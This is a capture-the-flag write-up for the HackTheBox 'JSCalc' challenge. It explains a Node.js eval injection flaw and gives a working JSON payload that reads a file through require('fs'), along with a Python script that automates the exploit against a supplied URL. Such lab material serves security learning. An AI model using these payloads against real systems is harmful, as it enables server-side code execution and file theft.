 #  JSCalc - HTB Challenge 

__________________________________________

### Vulnerability
Command injection via `eval`. 
Unpriviledged user can supply data which will be executed on the server.

Vulnerable code:
```js
// /helper/calculatorHelper.js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

### Exploit

The App is making a POST request to the /api/calculate endpoint.
The request is made in json and the **eval()** function is not sanitized so we can pass almost whatever we want.

We need to retrieve the flag, so this is the POST request to get it.
This article explain well why this work:
https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44
```http
POST /api/calculate HTTP/1.1
Host: 127.0.0.1:1337
Content-Type: application/json
...

{"formula":"require('fs').readFileSync('/flag.txt').toString('utf8')"}
```


### Python Script

Simple python script to automate the steps and get the flag
```python
import requests
import json
import sys

if len(sys.argv) != 2:
    print("Usage: python3 script.py <URL>")
    sys.exit(1)

url = sys.argv[1] + "/api/calculate"

if not url.startswith('http://') and not url.startswith('https://'):
    url = 'http://' + url

# JSON payload.
payload = {"formula":"require('fs').readFileSync('/flag.txt').toString('utf8')"}
payload_json = json.dumps(payload)

# Define the header: "Content-Type: application/json".
headers = {'Content-Type': 'application/json'}

# Send the request
try:
    response = requests.post(url, data=payload_json, headers=headers)

    if response.status_code == 200:
        data = json.loads(response.text)
        output = f'{{{data["message"].strip()}}}'
        print("Got The Flag")
        print(output)
    else:
        print(f'Errore {response.status_code}: POST request failed.')
except requests.exceptions.RequestException as e:
    print(f'Errore nella richiesta: {e}')

```